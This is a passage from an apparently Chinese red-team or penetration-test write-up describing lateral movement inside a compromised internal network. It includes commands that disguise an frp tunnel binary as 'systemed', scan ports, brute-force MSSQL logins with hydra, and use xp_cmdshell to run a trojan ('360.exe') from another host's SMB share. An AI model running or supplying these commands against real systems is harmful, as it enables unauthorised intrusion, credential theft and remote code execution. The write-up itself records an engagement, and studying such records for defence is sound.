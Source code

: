 ```java
1.  upload ../shell/frpc   
2.  upload ../shell/frpc.ini  
```

切换到shell:

```java
1.  mv frpc systemed  
2.  mv frpc.ini config.ini  
3.  chmod +x ./systemed  
4.  ./systemed -c config.ini  
```

0x08 内网漫游
=========

进入内网之后，一切就像切菜了，简单nmap全量扫一波，再次确认基本没有防护软件。

所剩时间并不多，故考虑直接工具一把梭。

快速定位管理机器:

shell1:

![25.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-ae2211e7f39002db0c5a4eff9371be51d423f297.png)

shell2:

![26.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-81d5b9fcba3712bb3e9722f7064498aa9e96a70b.png)

不难可以确定核心的主控在于57、102、131、159、220,其中56、58比较少见。

快速定位Web服务；

```java
1.  ./kscan -Pn -t 1.0.0.0/24 -p 80,443,8000-9000   
```

没发现一些堡垒机之类的集权WEB服务，都是一些很容易日的站点，因为有源码没意思。

因为开放了很多1433，考虑爆破数据库来拿下几台window的机器，看下Window的密码规则。

```java
1.  hydra -L u.txt -P p.txt  -M t.txt mssql -vV  
```

![27.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e19039a90452c9c58adf5feb2d42013c5cf55b6b.png)

发现其中有一台机器是56？这不是控制机器么？ 好家伙，天助我也。

```java
1. exec master..xp\_cmdshell "whoami && ipconfig && nslookup baidu.com"   
```

![28.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-5a7ab176aaa6f6a96c320a601ab7460d839007a1.png)

权限system，虽然不出网但是问题不是很大，在其他数据库找到出网的机器作为立足点就行。我选择的方案是，在出网的Window机器中直接构建一个共享目录(删起来方便)用来传递木马，采用正向Shell，即可成功上线。

```java
1.  exec master..xp\_cmdshell "cmd \\c \\\\1.0.0.29\\360.exe"  
```
